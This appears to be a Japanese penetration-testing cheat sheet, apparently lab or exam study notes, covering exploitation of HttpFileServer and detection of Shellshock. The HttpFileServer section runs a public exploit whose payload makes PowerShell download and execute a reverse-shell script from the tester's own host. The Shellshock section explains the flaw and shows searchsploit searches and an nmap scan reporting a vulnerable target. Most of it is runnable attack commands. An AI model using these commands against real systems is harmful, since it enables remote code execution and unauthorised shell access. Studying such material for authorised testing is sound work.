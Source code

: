 







## HttpFileServer

```
searchsploit HttpFileServer
```

```
python 49125.py 10.11.1.50 9505 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.119.167/Invoke-PowerShellTcp.ps1')"
```

※powershellはフルパスで指定しないとうまく動作しない
※画面上に出力結果が出るわけではないのでhttp.serverを立ててリクエストがきていることを確認すること



## ShellShock

https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29

* webサーバーがCGIを利用する際にリクエストからの特定の情報を環境変数リストにコピーしリクエストをハンドラプログラムに以上する。ハンドラがBashスクリプトである場合環境変数の文字列が実行されてしまう。
* OpenSSHのforcecommand機能。ユーザがログインした際に環境変数に記載されたbashコマンドを実行するという機能を悪用される

##### 脆弱性調査

```
searchsploit -t php 5.x | grep -v '/dos/'
```

これでshellshockが出てくる。apacheでも同じようにshellshockの脆弱性が表示される

##### 脆弱性チェック

* nmap

```bash
 ls -lah /usr/share/nmap/scripts/*shellshock*
```

```bash
nmap 10.11.1.71 -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi
  
----
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
```
